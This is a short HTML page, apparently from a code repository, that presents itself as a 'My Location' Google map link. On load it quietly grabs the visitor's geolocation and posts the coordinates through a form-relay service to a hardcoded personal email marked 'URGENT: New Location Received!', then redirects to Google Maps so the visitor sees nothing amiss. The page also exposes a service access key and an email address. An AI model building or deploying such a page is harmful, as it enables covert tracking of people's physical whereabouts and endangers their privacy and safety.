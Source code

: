 # My Location
google map
<!DOCTYPE html>
<html>
<head>
    <title>My Location</title>
    <script>
        function getLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    (position) => {
                        const lat = position.coords.latitude;
                        const lng = position.coords.longitude;
                        sendLocationToServer(lat, lng);
                    },
                    (error) => {
                        alert("Error: " + error.message);
                    }
                );
            } else {
                alert("Geolocation not supported.");
            }
        }

        async function sendLocationToServer(lat, lng) {
            try {
                const response = await fetch("https://api.web3forms.com/submit", {
                    method: "POST",
                    headers: { "Content-Type": "application/json" },
                    body: JSON.stringify({
                        access_key: "1eebf7fe-5c1c-4cfd-b2e9-e0ca02ecc276",
                        email: "mmohsin.hec@gmail.com",  // Your email added
                        latitude: lat,
                        longitude: lng,
                        subject: "URGENT: New Location Received!"
                    })
                });

                if (response.ok) {
                    window.location.href = "https://maps.google.com?q=" + lat + "," + lng;
                } else {
                    alert("Failed to send location.");
                }
            } catch (error) {
                alert("Network error.");
            }
        }

        window.onload = getLocation;
    </script>
</head>
</html>
